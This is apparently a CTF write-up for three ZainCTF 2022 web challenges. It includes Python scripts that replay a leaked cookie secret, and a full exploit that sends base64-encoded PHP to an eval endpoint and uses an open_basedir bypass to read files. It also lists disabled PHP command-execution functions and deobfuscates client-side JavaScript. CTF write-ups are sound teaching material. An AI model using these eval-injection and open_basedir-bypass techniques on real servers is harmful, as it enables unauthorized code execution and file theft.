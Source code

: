 # ZainCTF 2022 - Web 
## 1- Sonic go Brr 

#### about : 
- Type: Web 
- Level: easy 
- Website: http://instance-web.cybertalentslabs.com/index.php
- points: 50
</br>

So the website disclosed a .git folder , with this [tool](https://github.com/arthaud/git-dumper) i got the backend files , in the source code i found that the check was if the secret (bas64 string) is equal to the value of parameter Q , and that needs to go fast enough to be submitted 
</br>

i wrote this code then 
```python
import requests
import base64 as bs
import urllib.parse as url

def get() : 
    headers = {
        'Host': 'wcomekgvdnrf93rq5l3n94wbq36o0wz0yqnlsw3o-web.cybertalentslabs.com',
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
        'Accept-Language': 'fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3',
        'Accept-Encoding': 'gzip, deflate',
        'Connection': 'close',
        'Upgrade-Insecure-Requests': '1',
        'Sec-GPC': '1',
    }

    response = requests.get('http://wcomekgvdnrf93rq5l3n94wbq36o0wz0yqnlsw3o-web.cybertalentslabs.com/index.php', headers=headers, verify=False)
    return  response.cookies["PHPSESSID"], response.cookies["secret"]

def post(session , secret) : 
    cookies = {
        'PHPSESSID': session,
        'secret': secret,
    }

    headers = {
        'Host': 'wcomekgvdnrf93rq5l3n94wbq36o0wz0yqnlsw3o-web.cybertalentslabs.com',
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
        'Accept-Language': 'fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3',
        'Accept-Encoding': 'gzip, deflate',
        'Connection': 'close',
        'Upgrade-Insecure-Requests': '1',
        'Sec-GPC': '1',
        'Content-Type': 'application/x-www-form-urlencoded',
        'Content-Length': '12',
    }

    data  ="Q=" + bs.b64decode(url.unquote(secret)).decode('utf-8')
    

    response = requests.post('http://wcomekgvdnrf93rq5l3n94wbq36o0wz0yqnlsw3o-web.cybertalentslabs.com/index.php', headers=headers, cookies=cookies, data=data, verify=False)
    print(response.text)
if __name__ == "__main__" : 
    sess , cookie = get()
    post(sess  ,cookie)
```

## 2- blobber 

#### about : 
- Type: Web 
- Level: meduim 
- Website: http://52.59.229.252:1234/index.php
- points: 100

the website shows the source code : 

```php
<html>
<!--
<img src="uploads/bg.png"/>
-->
<?php

if (!isset($_GET['e']))
{
highlight_file(__FILE__);
}

eval(stripslashes($_GET['e']));

if (isset($_GET['file'])){
 $dir= new DirectoryIterator($_GET['file']);
 foreach ($dir as $found) echo filemtime($found)." ";
 exit;

}

?>
</html>
```

now easy eval , easy rce right , nope let's try the payload 
```php
ini_set('display_errors', 1);
chdir('../');
```

it gives : 

> <b>Warning</b>:  chdir(): open_basedir restriction in effect. File(../) is not within the allowed path(s): (/var/www/html) in <b>/var/www/html/index.php(12) : eval()'d code(3) : eval()'d code</b> on line <b>3</b><br />

now thats a lockdown , ok it says somethign base_dir prevents us from getting the parent files , i tried many thing , but if we look in disabled_functions we wil find that we can't upload nor execute system commands , pretty bad.

disabled function : 
>system, pcntl_signal_dispatch,  posix_uname,  chgrp,  posix_setsid, pcntl_wifcontinued, readlink, proc_open, pcntl_exec, pcntl_wstopsig, imap_open, tempnam, passthru,  chown, pcntl_wifexited, show_source,  popen, pcntl_async_signals, exec, posix_mkfifo, pcntl_wexitstatus, touch,  posix_mkfifo, copy, pcntl_sigprocmask, file, pcntl_sigwaitinfo, fopen, pcntl_wifsignaled, define_syslog_variables, tmpfile, pcntl_exec, pcntl_waitpid, imagecolormatch, popen,  pg_lo_import, readfile, ftp_ssl_connect,  dbmopen, apache_setenv, link, pcntl_fork, pcntl_signal, parse_ini_file,  proc_terminate, curl_multi_exec, pcntl_setpriority, rename, file_put_contents, pcntl_getpriority, pcntl_signal_get_handler, curl_exec, pcntl_strerror,  proc_close,  proc_nice, pcntl_sigtimedwait,  posix_getpwuid, pcntl_get_last_error,  symlink,  pclose,  dbase_open,  posix_kill, pcntl_alarm, ftp_connect,  chmod, shell_exec, pcntl_wait,  posix_setpgid, pcntl_wtermsig, pcntl_wifstopped

i searched and found this [github](https://github.com/carlospolop/hacktricks/blob/master/pentesting/pentesting-web/php-tricks-esp/php-useful-functions-disable_functions-open_basedir-bypass/README.md) repo , it was pretty handy , i tried and it worked : 

```php
$file_list = array();
$it = new DirectoryIterator("glob:///*");
foreach($it as $f) {  
    $file_list[] = $f->__toString();
}
sort($file_list);  
foreach($file_list as $f){  
        echo "{$f}\n";
}
```
> anaconda-post.log
> bin
> boot
> dev
> etc
> home
> lib
> lib64
> media
> mnt
> opt
> proc
> root
> run
> sbin
> srv
> sys
> t0t4lly_n0t_th3_r3al_fl4gG
> tmp
> usr
> var

we know it's in the t0t4lly_n0t_th3_r3al_fl4gG , we ned to get the file content : 

```php
chdir("uploads/");
ini_set("open_basedir", "/var/www/html:../");
chdir("../");
chdir("../");
chdir("../");
chdir("../");
var_dump(scandir('.'), file_get_contents('t0t4lly_n0t_th3_r3al_fl4gG'));
```

and we got the flag : **flag{n1c3_w0rk_ch41n1ng_wrappers_w1th_b4s3d1r}**

for the complete exploit : 

```python
import requests
import base64 as bs
#t0t4lly_n0t_th3_r3al_fl4gG

headers = {
    'Host': '52.59.229.252:1234',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
    'Accept-Language': 'fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3',
    'Accept-Encoding': 'gzip, deflate',
    'Connection': 'close',
    'Upgrade-Insecure-Requests': '1',
    'Sec-GPC': '1',
    'Content-Length':'0',
    'Cache-Control': 'max-age=0',
    'X-Forwarded-For': '127.0.0.1',
}
code = """
ini_set('display_errors', 1);
chdir("uploads/");
ini_set("open_basedir", "/var/www/html:../");
chdir("../");
chdir("../");
chdir("../");
chdir("../");
var_dump(scandir('.'), file_get_contents('t0t4lly_n0t_th3_r3al_fl4gG'));
"""

command  = f"""
$code = base64_decode("{(bs.b64encode(code.encode("utf-8"))).decode("utf-8")}");
eval($code);
"""
params = (
    ('e', command),
)

response = requests.get('http://52.59.229.252:1234/index.php', headers=headers, params=params, verify=False)
print(response.text)
```


## 2- Obfjustu 

#### about : 
- Type: Web 
- Level: easy 
- Website: http://52.59.254.46:1245/
- points: 50


when we first open the website , It has a graphical CLI, we can see the available commads using /help

<center><img src="../images/Obfjustu.png"></img></center>

in the source code , i found the javascript responsible for the fonctions , an obfuscated part was revealuing itself : 

```js 
var _cs = ["\x6a\x53", "\x31\x30\x6e", "\x66\x75", "\x5f\x77", "\x30\x6d\x33", "\x43\x6c\x69", "\x48\x5f\x73", "\x7b\x30\x62", "\x61\x67", "\x33", "\x66\x6c", "\x31\x74", "\x65\x6e\x74", "\x73\x63", "\x77\x45\x4c", "\x4c\x63", "\x30\x6d", "\x61\x74", "\x7d", "\x67\x74\x68", "\x67\x74", "\x63\x61\x6c", "\x6c\x6f", "\x68", "\x6c\x65\x6e", "\x6d\x70", "\x65", "\x61\x72", '\x67\x65\x6f', "\x65\x43\x6f"];
var _xxg0 = _cs[10] + _cs[8] + _cs[7] + _cs[2] + _cs[13] + _cs[17] + _cs[1] + _cs[3] + _cs[11] + _cs[6] + _cs[4] + _cs[0] + _cs[18];

function _xxf0(_xxp1, _xxp0) {
    if (_xxp1[_cs[24] + _cs[19]] !== _xxp0[_cs[24] + _cs[20] + _cs[23]]) {
        return false;
    }
    return _xxp1[_cs[22] + _cs[21] + _cs[29] + _cs[25] + _cs[27] + _cs[26]](_xxp0) === 0;
}
if (_xxf0(_xxg0, word[2])) {
    log(_cs[5] + _cs[12], _cs[14] + _cs[15] + _cs[16] + _cs[9]);
}
```

put it in the console (we are not analyzinf before getting the general idea) and we got the flag  :) : 

<center><img src="../images/flag_obfjustu.png"></img></center>
